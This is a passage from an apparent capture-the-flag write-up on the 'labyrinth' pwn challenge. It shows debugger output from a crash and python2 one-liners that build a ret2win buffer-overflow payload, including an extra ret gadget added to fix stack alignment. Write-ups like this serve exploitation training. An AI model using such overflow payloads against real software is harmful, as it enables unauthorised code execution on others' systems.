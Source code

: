 ```
   0x7ffff7c20010:      add    DWORD PTR [rax],eax                                                                  
   0x7ffff7c20012:      add    BYTE PTR [rax],al                                                                    
[------------------------------------stack-------------------------------------]                                    
0000| 0x7fffffffdd80 --> 0x0                                                                                        
0008| 0x7fffffffdd88 --> 0x401405 (<main>:      push   rbp)                                                         
0016| 0x7fffffffdd90 --> 0x100000000                                                                                
0024| 0x7fffffffdd98 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")                                                                                                             
0032| 0x7fffffffdda0 --> 0x0                                                                                        
0040| 0x7fffffffdda8 --> 0xb6dc04cf7d4b5e83                                                                         
0048| 0x7fffffffddb0 --> 0x7fffffffde88 --> 0x7fffffffe1da ("/home/kali/Documents/cyber_apocalyse/pwn/challenge/labyrinth")                                                                                                             
0056| 0x7fffffffddb8 --> 0x401405 (<main>:      push   rbp)                                                         
[------------------------------------------------------------------------------]                                    
Legend: code, data, rodata, value                                                                                   
Stopped reason: SIGSEGV                                                                                             
0x00007ffff7c2000a in ?? () from ./glibc/libc.so.6 
```
RBP: 0x4242424242424242 ('BBBBBBBB'). We know our overflow is successful, and now we can put whatever payload for the return function.

First we can try pointing to the start of escape plan:
```
$ python2 -c 'print("69+\n"+"A"*48+"\x55\x12\x40\x00\x00\x00\x00\x00")' | ./labyrinth
<...SNIP...>
Would you like to change the door you chose?

>> 
[-] YOU FAILED TO ESCAPE!

zsh: done                python2 -c 'print("69+\n"+"A"*48+"\x55\x12\x40\x00\x00\x00\x00\x00")' | 
zsh: segmentation fault  ./labyrinth
```
Unfortunately preparing it this way does not work so well. I found a [writeup](https://mregraoncyber.com/rop-emporium-writeup-ret2win/) for a similar ret2win problem that discusses the need for an additional return due in newer Ubuntu versions due to a MOVAPS issue. I'll try this:

```
python2 -c 'print("69+\n"+"A"*48+"\x16\x10\x40\x00\x00\x00\x00\x00"+"\x55\x12\x40\x00\x00\x00\x00\x00")' | ./labyrinth
<...snip...>
Would you like to change the door you chose?

>> 
[-] YOU FAILED TO ESCAPE!


                \O/               
                 |                 
                / \               
```